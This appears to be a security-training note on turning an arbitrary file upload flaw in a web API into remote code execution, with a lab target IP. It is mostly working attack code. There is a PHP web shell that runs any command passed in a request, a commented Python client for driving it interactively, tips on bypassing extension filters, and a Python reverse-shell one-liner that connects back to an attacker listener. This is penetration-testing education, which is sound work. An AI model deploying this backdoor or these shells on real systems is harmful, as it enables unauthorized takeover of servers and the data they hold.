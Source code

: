 # Arbitrary File Upload
Refer to [[/Offensive Security Techniques/Web Exploitation Techniques/File Upload Vulnerabilities/]] for in-depth attacks.

These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.
## PHP File Upload via API to RCE
Suppose we are assessing an application residing in `http://10.129.235.79:3001`

When we browse the application, an anonymous file uploading functionality sticks out. ![Login form with email, password fields, and file upload option (1MB limit).](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.
```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```
- The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. 

This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.
![File uploaded to /uploads/backdoor.php, network request details shown below.](https://academy.hackthebox.com/storage/modules/160/4.png)
- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.
```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows:
```shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.
```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.243",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```